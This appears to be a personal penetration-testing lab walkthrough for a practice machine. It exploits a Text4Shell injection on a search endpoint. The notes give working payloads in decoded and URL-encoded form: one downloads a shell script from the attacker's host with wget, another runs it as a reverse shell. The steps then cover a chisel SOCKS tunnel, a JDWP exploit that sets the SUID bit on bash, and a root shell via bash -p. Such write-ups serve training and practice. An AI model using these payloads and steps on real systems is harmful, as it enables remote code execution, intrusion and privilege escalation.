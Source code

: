 
This one sucks. 
![[Pasted image 20231125133117.png]]
this is an api endpoint. Browse to it or curl -i to see *some* info. Apparently this is a text4shell vulnerability. 

dirsearch revealed endpoints in this format
```c
http://192.168.204.150:8080/search?query=
```



Decoded upload webshell:
```c
http://192.168.204.150:8080/search?query=${script:javascript:java.lang.Runtime.getRuntime().exec('wget 192.168.45.213/shell.sh -O /tmp/shell.sh')} }
```
Encode and browse to:
```
http://192.168.204.150:8080/search?query=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27chmod%20777%20%2Fdev%2Fshm%2Fshell%27%29%7D%0A
```

Now execute it, with a listener set
decoded:
```c
http://192.168.204.150:8080/search?query=query=${script:javascript:java.lang.Runtime.getRuntime().exec('bash /tmp/shell.sh')} 
```


encoded:
```
http://192.168.204.150:8080/search?query=y%3D%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27bash%20%2Ftmp%2Fshell.sh%27)%7D%20
```


One on shell, 
```c
#Start the other half of the service
java /opt/data/App.java
nc -nv 127.0.0.1 5000
```

Upload chisel:
on target:

```c
./chisel client 192.168.45.213:9000 R:socks
```

On Kali:
```c
chisel server --socks5 --reverse -p 5555
```

Then do the exploit
```c
proxychains python2 jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd "chmod u+s /bin/bash"
```

Then give it the interrupt
```c
proxychains nc -nv 127.0.0.1 5000
```

Then back on shell, refer to gtfo bins and:
```c
/bin/bash -p
```

![[Pasted image 20231125165151.png]]